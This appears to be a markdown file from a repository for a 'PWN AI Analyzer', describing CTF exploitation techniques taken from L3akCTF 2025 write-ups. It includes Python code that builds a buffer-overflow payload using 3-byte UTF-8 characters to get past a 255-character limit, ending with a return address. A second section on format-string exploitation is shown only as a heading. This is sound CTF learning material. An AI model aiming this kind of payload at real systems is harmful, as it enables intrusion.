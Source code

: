 # Advanced PWN Techniques

## MindCrafters Techniques Implementation

This document details the advanced techniques extracted from real CTF writeups and implemented in the PWN AI Analyzer system.

---

## UTF-8 Byte Bypass

**Source**: L3akCTF 2025 - Safe Gets Challenge  
**Technique**: Exploits character vs byte counting differences in Python

### Problem
- Buffer overflow beyond 255 bytes required
- Python firewall limits input to 255 characters
- Local exploitation works, remote fails due to character limit

### Solution
```python
def utf8_byte_bypass_technique(self, max_chars=255):
    # UTF-8 character that occupies 3 bytes but counts as 1 character
    t_in_circle_utf8 = "ⓣ".encode("utf-8")  # 3 bytes
    
    # Calculate payload that exceeds byte limit
    utf8_chars = 30  # Use 30 UTF-8 characters (90 bytes)
    null_bytes = 190  # Fill with nulls
    
    payload = t_in_circle_utf8 * utf8_chars
    payload += b'\x00' * null_bytes
    
    # Add win function address if exists
    if 'win' in self.binary_info.get('symbols', {}):
        win_addr = self.binary_info['symbols']['win']
        payload += p64(win_addr + 5)  # +5 to skip prologue
    
    return payload
```

### Key Insight
Python counts characters, not bytes. UTF-8 characters can occupy multiple bytes while counting as single characters, allowing bypass of character-based limits.

---

## Multi-Stage Format String Exploitation

**Source**: L3akCTF 2025 - The Goose Challenge  
**Technique**: Complex 4-stage sequential exploitation
